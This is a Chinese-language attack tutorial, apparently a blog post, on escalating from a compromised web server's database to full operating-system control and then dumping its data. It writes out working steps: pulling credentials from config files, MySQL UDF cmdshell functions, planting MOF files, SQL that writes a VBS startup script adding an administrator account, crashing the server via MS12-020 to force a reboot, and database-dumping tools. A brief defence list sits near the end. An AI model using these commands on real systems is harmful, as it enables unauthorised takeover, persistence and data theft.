

数据库提权到操作系统
攻击者如果获取了通过数据库root权限，是可以通过提权，获取操作系统最高权限的。
1️⃣Mysql数据库提权
一、如何获取mysql账号密码
当通过webshell进入服务器后，怎么得到数据库的账号密码呢
- 查看网站配置文件。
如:conn、config、data、sql、common 、inc等。
-
查看数据库物理路径下的user表文件 目录为/data/mysql/user.myd和user.myi 密码是加密的，需要再次进行破解
-
通过暴力破解得到（hscan、Bruter、hydra、脚本木马） 如果对外开放3306，即允许远程连接，可以远程爆破 补充：mysql开启root账号远程访问
sql mysql> GRANT ALL PRIVILEGES ON*.*TO root@"%"IDENTIFIED BY"root"; mysql> flush privileges;
二、利用UDF自身提权
- 原理 UDF提权是利用MYSQL的Create Function语句，将MYSQL账号转化为系统system权限。
- 利用条件 * 目标系统是Windows(Win2000,XP,Win2003) * 已经拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数 * 有root账号和密码
利用方式A
- 使用工具“mysql综合利用工具”连接 填写地址、root账号、密码后进行连接

-
导入udf.dll文件 连接成功后，导出DLL文件，导入时请勿必注意导出路径（一般情况下对任何目录可写，无需考虑权限问题），否则在下一步操作中你会看到"No paths allowed for shared library"错误。
#不同版本mysql，udf.dll存放路径不同 #Mysql版本大于5.1版本。 xx\\mysql\\lib\\plugin\\udf.dll 文件夹下。 #Mysql5.1版本默认路径。 C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin\\udf.dll #Mysql版本小于5.1版本。 Windows2003下放置于c:\\windows\\system32\\udf.dll windows2000下放置于c:\\winnt\\system32\\udf.dll一般Lib、Plugin文件夹需要在webshell先手工建立（也可用NTFS ADS流模式突破进而创建文件夹）```sql
查找到mysql的目录后
select @@basedir;
利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\ProgramFiles\MySQL\MySQL Server 5.1\lib::$INDEX_ALLOCATION';
利用NTFS ADS创建plugin目录
select 'It is dll' into dumpfile 'C:\ProgramFiles\MySQL\MySQL Server 5.1\lib\plugin::$INDEX_ALLOCATION'; ```
-
UDF提权常用命令:
sql #创建cmdshell函数，如果用3389就需要创建open3389函数，具体有哪些函数看帮助 create function cmdshell returns string soname 'udf.dll'; #创建好函数后，用函数执行系统命令 select cmdshell('net user'); select open3389(); drop function cmdshell; 删除函数 delete from mysql.func where name='cmdshell' 删除函数使用完成后你可能需要删除在第二步中导出的DLL，但在删除DLL前请先删除你在第三步中创建的函数，否则删除操作将失败，删除第三步中创建的函数的SQL语句为：drop function 创建的函数名；
利用方式B
UDF脚本提权,当mysql不能远程连接时，可以上传udf脚本至对方主机，然后通过webshell的方式进行连接操作。
三、利用mof提权
MOF漏洞工具与脚本实战： ***.com
- 原理 在windows平台下，c:/windows/system32/wbem/mof/nullevt.mof这个文件会每间隔一段时间（很短暂）就会以system权限执行一次，所以，只要将要做的事通过代码存储到这个mof文件中，就可以实现权限提升。
- 利用条件 * mysql用户具有root权限 * 且可以复制文件到c:/windows/system32/wbem/mof/目录下 * 关闭了secure-file-priv
利用方式1 通过工具如“mysql综合利用工具”直接提取，输入账户密码连接数据库后可直接输入系统命令，创建账号。
利用方式2
通过上传mof文件，然后在sql中运行的方式
- 找个可写目录，上传mof文件
假设上传的目录为文件夹C:\\wmpub\\moon.mof
该mof文件，已经写死了要创建的账号密码等信息
- 执行sql，转移文件到系统目录，等待创建新账号
sql select load_file('C:\\wmpub\\moon.mof') into dumpfile 'c:/windows/system32/wbem/mof/moon.mof'; - 执行完后，验证账号 在webshell里执行使用net user查看是否多了一个admin用户，如果有则说明可以利用，否则就不需要继续了，注意新建的帐号每隔5分钟就会新建帐号，删除帐号的办法参考上文链接
四、通过Mysql把文件写入启动项
- 通过mysql数据库命令写入VBS脚本；
sql mysql>drop database test1; mysql> create database test1; mysql> use test1; mysql> create table a (cmd text); mysql>insert into a values ("set wshshell=createobject (""wscript.shell"")"); mysql>insert into a values ("a=wshshell.run (""cmd.exe /c net user best best /add"",0)"); mysql>insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup Administrators best /add"",0)"); #注意双引号和括号以及后面的“0”一定要输入！我们将用这三条命令来建立一个VBS的脚本程序
2. 直接通过Webshell的Mysql写入启动项；
```sql
mysql>select * from a;
mysql>select * from a into outfile "c://docume~1//administrator//「开始」菜单//程序//启动//best.vbs";
- 通过MS12-020、MS15-034重启服务器。 服务器down机后，管理员会重启，重启后我们就能得到新建的管理员账号了
2️⃣微软Mssql提权
mssql提权主要分为弱口令与溢出两类提权。目前主要通过弱口令连接直接提权，溢出类Mssql数据库几乎很少见（sqlserver2000之后就几乎没有了）。
通过漏洞拉到webshell之后，找到网站配置文件，里面有sa权限的账号密码，配置文件为asp或者aspx网站一般使用微软自带数据库，这个提权没有sa权限是不能做的，mssql一般是允许远程连接的，系统库是master。 有了sa密码直接利用sqltools工具就可以了
3️⃣如何通过Oracle提权
Oracle数据库一般与jsp、aspx网站搭配，如果是jsp网站，默认是系统权限，aspx网站默认需要提权。
提权方法参考：***.com工具为oracleshell
4️⃣数据库安全防范
- 限止数据库远程连接，给数据库帐户设置密码必须>8位以上并数字+字母+特殊符号等。
- 不要给网站配置root或SA权限。必须给每个网站独立分配数据库帐户并限格控制好权限。
- 及时升级数据库补丁。
- 安装Waf进行防御。
- 购买数据库审计设备
数据库脱库
1️⃣工具脱库
通过百度查找Navicat Mysql、Navicat for SQL Server、Navicat for Oracle、Navicat for PostgreSQL、Navicat for SQLite等，也可以使用其它工具代替，如sqlmap、k8等类似工具。 优点： 支持面广，功能强大，速度度、稳定 缺点： 不能支持外链
2️⃣脚本脱库
通过百度查找ASP、PHP、JSP脱库脚本等类似工具。 优点： 解决不外链的情况 缺点： 速度慢、不够稳定
3️⃣站点打包
通过百度查找ASP、PHP、JSP脚本打包程序等类似工具。 asp+access源码和数据库是可以一起打包，其它类型数据库，库与源码是单独分开的。